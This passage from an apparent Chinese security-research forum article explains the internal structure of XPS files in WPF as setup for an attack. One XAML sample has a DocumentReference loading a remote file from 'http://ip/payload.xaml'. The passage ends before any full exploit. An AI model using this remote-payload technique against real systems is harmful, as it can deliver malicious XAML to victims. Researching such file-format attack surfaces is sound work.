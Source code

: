 ![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-0b6f20fd13b9023987fe59d4c6971983240624c7.png)

0X03 XPS介绍
==========

XPS文件浏览和打印需求通常使用在WPF开发领域， 全称为 XML Paper Specification，XPS 格式的一个重要特点是所有文档内容和静态资源都存储在一个文件内，文件存储结构和内容以及各个部分之间的关系如下图

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-e68455b6047fb93ae97b3bad24adb3cf942fbb7f.png)

3.1 Fixeddocumentsequense.fdseq 文件
----------------------------------

Fixeddocumentsequense.fdseq 文件是树的根，如下该文件包含了XPS文档列表信息，明显是一组XAML，我们知道XAML里的所有的标签对应的都是.NET里的对象，所以这里的子标签DocumentReference就是一个内置对象，它的Source属性指向FixedDocument，既可指定本地文件也可以加载远程文件 \*.xaml

```php
// 加载本地文件
<FixedDocumentSequence xmlns="http://schemas.microsoft.com/xps/2005/06">
    <DocumentReference Source="Documents/1/FixedDocument.fdoc" />
</FixedDocumentSequence>

// 加载远程文件
<FixedDocumentSequence xmlns="http://schemas.microsoft.com/xps/2005/06">
    <DocumentReference Source="http://ip/payload.xaml" />
</FixedDocumentSequence>
```

3.2 \[Content\_Type\].xml 文件
----------------------------

\[Content\_Type\].xml 包含XPS文档里文件扩展名和相应内容类型之间的映射关系，如下扩展名.fdoc 对应fixeddocoument，在WPF里表示打印固定文档

```php
<Types xmlns="http://schemas.openxmlformats.org/package/2006/content-types">
      <Default Extension="fdseq" ContentType="application/vnd.ms-package.xps-fixeddocumentsequence+xml" />
      <Default Extension="rels" ContentType="application/vnd.openxmlformats-package.relationships+xml" />
      <Default Extension="fdoc" ContentType="application/vnd.ms-package.xps-fixeddocument+xml" />
      <Default Extension="fpage" ContentType="application/vnd.ms-package.xps-fixedpage+xml" />
      <Default Extension="ODTTF" ContentType="application/vnd.ms-package.obfuscated-opentype" />
      <Default Extension="png" ContentType="image/png" />
</Types>
```

3.3 FixedDocument.fdoc 文件
-------------------------

Documentsm目录结构下的 FixedDocument.fdoc文件 包含PageContent对象页面内容的引用列表信息，PageContent标记的Source属性指向FixedPage

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-54992d4707da220addf8730f8939e347e7f4ad0b.png)

3.4 \*.fpage 文件
---------------
